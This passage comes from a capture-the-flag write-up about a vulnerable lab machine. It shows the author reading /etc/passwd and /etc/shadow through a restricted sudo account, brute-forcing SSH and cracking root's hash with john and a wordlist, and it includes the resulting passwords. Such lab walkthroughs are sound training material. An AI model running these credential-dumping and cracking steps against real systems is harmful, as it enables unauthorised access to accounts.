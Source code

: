 Dumping `/etc/passwd` tells us that the password of root is somehow being used for encrypting ftp's files or folders. It seems that aadams has a GID of `10`, which is the `wheel` group. Let us try to bruteforce SSH using `aadams` this time.

```
```

After what seems like a long time, we got the password for `aadams` which is `nostradamus`. Let us see what he is able to do.

```
aadams@slax:~$ sudo -l

We trust you have received the usual lecture from the local System
Administrator. It usually boils down to these three things:

    #1) Respect the privacy of others.
    #2) Think before you type.
    #3) With great power comes great responsibility.

Password:
User aadams may run the following commands on this host:
    (root) NOEXEC: /bin/ls
    (root) NOEXEC: /usr/bin/cat
    (root) NOEXEC: /usr/bin/more
    (root) NOEXEC: !/usr/bin/su *root*

aadams@slax:~$ sudo ls /home/ftp/incoming
salary_dec2003.csv.enc

aadams@slax:~$ sudo cat /home/ftp/incoming/salary_dec2003.csv.enc > salary_dec2003.csv.enc
```

Since we're unable to `cp` the file out nor `su` to root, I had to use `cat` to make a local copy. The `.enc` format suggests that the file is encrypted with OpenSSL, but we don't know what cipher it is using.

Using `aadams` ability to dump the `/etc/shadow` file, I proceeded to use `john` with the `rockyou` wordlist.

```
root@kali:~# john hashes.txt --wordlist=rockyou.txt
Warning: detected hash type "md5crypt", but the string is also recognized as "aix-smd5"
Use the "--format=aix-smd5" option to force loading these as that type instead
Using default input encoding: UTF-8
Loaded 1 password hash (md5crypt, crypt(3) $1$ [MD5 128/128 AVX 4x3])
Press 'q' or Ctrl-C to abort, almost any other key for status
tarot            (root)
1g 0:00:00:07 DONE (xxxx-xx-xx xx:xx) 0.1410g/s 36533p/s 36533c/s 36533C/s tasing..tarot
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```

We now have the password for `root` which is `tarot`. We just need to find out what OpenSSL cipher the encrypted file is and we're done with the challenge!
